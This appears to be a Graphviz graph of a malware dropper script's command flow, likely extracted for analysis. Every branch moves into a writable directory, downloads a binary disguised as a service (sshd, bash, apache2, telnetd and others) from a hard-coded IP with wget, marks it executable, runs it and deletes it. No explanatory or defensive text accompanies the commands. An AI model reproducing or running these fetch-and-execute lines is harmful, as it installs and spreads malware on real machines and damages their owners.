 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://80.211.141.202/bigmanntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x bigmanntpd "];
12 -> 14 [label=";,"];
14 [label="./bigmanntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf bigmanntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://80.211.141.202/bigmansshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x bigmansshd "];
30 -> 32 [label=";,"];
32 [label="./bigmansshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf bigmansshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://80.211.141.202/bigmanopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x bigmanopenssh "];
48 -> 50 [label=";,"];
50 [label="./bigmanopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf bigmanopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://80.211.141.202/bigmanbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bigmanbash "];
66 -> 68 [label=";,"];
68 [label="./bigmanbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bigmanbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://80.211.141.202/bigmantftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x bigmantftp "];
84 -> 86 [label=";,"];
86 [label="./bigmantftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf bigmantftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://80.211.141.202/bigmanwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x bigmanwget "];
102 -> 104 [label=";,"];
104 [label="./bigmanwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf bigmanwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://80.211.141.202/bigmancron "];
118 -> 120 [label=";,"];
120 [label="chmod +x bigmancron "];
120 -> 122 [label=";,"];
122 [label="./bigmancron "];
122 -> 124 [label=";,"];
124 [label="rm -rf bigmancron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://80.211.141.202/bigmanftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x bigmanftp "];
138 -> 140 [label=";,"];
140 [label="./bigmanftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf bigmanftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://80.211.141.202/bigmanpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x bigmanpftp "];
156 -> 158 [label=";,"];
158 [label="./bigmanpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf bigmanpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://80.211.141.202/bigmansh "];
172 -> 174 [label=";,"];
174 [label="chmod +x bigmansh "];
174 -> 176 [label=";,"];
176 [label="./bigmansh "];
176 -> 178 [label=";,"];
178 [label="rm -rf bigmansh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://80.211.141.202/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://80.211.141.202/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://80.211.141.202/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
